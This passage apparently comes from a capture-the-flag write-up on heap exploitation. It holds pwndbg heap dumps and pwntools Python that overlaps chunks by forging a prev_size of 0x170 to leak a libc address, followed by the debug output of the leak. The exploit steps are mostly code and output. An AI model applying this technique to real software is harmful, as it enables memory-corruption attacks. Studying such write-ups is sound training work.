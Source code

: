 0x6c3180:	0x3131313131313131	0x3131313131313131
0x6c3190:	0x0000000000000170	0x0000000000000100
0x6c31a0:	0x3232323232323232	0x3232323232323232
0x6c31b0:	0x3232323232323232	0x3232323232323232
0x6c31c0:	0x3232323232323232	0x3232323232323232
0x6c31d0:	0x3232323232323232	0x3232323232323232
0x6c31e0:	0x3232323232323232	0x3232323232323232
0x6c31f0:	0x3232323232323232	0x3232323232323232
0x6c3200:	0x3232323232323232	0x3232323232323232
0x6c3210:	0x3232323232323232	0x3232323232323232
0x6c3220:	0x3232323232323232	0x3232323232323232
0x6c3230:	0x3232323232323232	0x3232323232323232
0x6c3240:	0x3232323232323232	0x3232323232323232
0x6c3250:	0x3232323232323232	0x3232323232323232
0x6c3260:	0x3232323232323232	0x3232323232323232
0x6c3270:	0x3232323232323232	0x3232323232323232
0x6c3280:	0x3232323232323232	0x3232323232323232
0x6c3290:	0x0000000000000170	0x0000000000000020
0x6c32a0:	0x3333333333333333	0x3333333333333333
0x6c32b0:	0x0000000000000000	0x0000000000020ce1
0x6c32c0:	0x0000000000000000	0x0000000000000000
pwndbg> xinfo 0x00007fed0c14bb78
Extended information for virtual address 0x7fed0c14bb78:

  Containing mapping:
    0x7fed0c14b000     0x7fed0c14d000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so

  Offset information:
         Mapped Area 0x7fed0c14bb78 = 0x7fed0c14b000 + 0xb78
         File (Base) 0x7fed0c14bb78 = 0x7fed0bd87000 + 0x3c4b78
      File (Segment) 0x7fed0c14bb78 = 0x7fed0c1477c0 + 0x43b8
         File (Disk) 0x7fed0c14bb78 = /lib/x86_64-linux-gnu/libc-2.23.so + 0x1c4b78

 Containing ELF sections:
               .data 0x7fed0c14bb78 = 0x7fed0c14b080 + 0xaf8
```
since it is overlapped, we can show to leak libc address
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
add(0xf0, 'x' * 0x10)
pause()
show()
```
```gdb -q -p `pidof pwn` -ex "b *0x40099B" -ex "c"```
ni again and again get
```
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'0 : xxxxxxxxxxxxxxxx'
0 : xxxxxxxxxxxxxxxx[DEBUG] Received 0xa bytes:
    00000000  31 20 3a 20  78 0b ef fb  c7 7f                     │1 : │x···│··│
    0000000a
1 : x\x0b\xfb\xc7$  
```
write code to recv it
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
```